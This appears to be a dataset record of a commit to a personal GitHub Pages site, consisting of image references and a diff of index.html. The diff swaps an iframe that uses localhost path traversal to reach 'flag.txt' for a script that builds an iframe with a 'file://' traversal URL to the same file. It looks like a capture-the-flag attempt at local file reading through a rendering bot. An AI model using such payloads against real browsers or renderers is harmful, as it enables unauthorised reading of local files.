

Before and after one commit to Hamichiowo/hamichiowo.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1067 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1 +1,11 @@
-<iframe width="800" height="800" src="http://localhost/../../../../../../../flag.txt"></iframe>
+<html>
+<body>
+<script>
+  var iframe = document.createElement('iframe');
+  iframe.height = 300
+  iframe.width = 1000
+  iframe.src="file://../../../../../../../../../../../../../../../..//flag.txt";
+  document.body.appendChild(iframe);
+</script>
+</body>
+</html>
```
